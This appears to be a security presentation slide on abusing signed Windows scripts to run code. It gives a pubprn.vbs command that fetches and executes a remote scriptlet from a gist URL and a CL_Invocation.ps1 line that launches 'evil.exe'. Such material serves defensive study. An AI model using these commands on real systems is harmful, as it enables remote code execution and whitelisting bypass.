

# Evolving further – Next Gen
PUBPRN.vbs – C:\Windows\System32\Printing_Admin_Scripts\en-US
pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct

CL_Invocation.ps1 - C:\Windows\diagnostics\system\AERO
. CL_Invocation.ps1 SyncInvoke C:\temp\evil.exe

Slmgr.vbs / winrm.vbs – Requires registry changes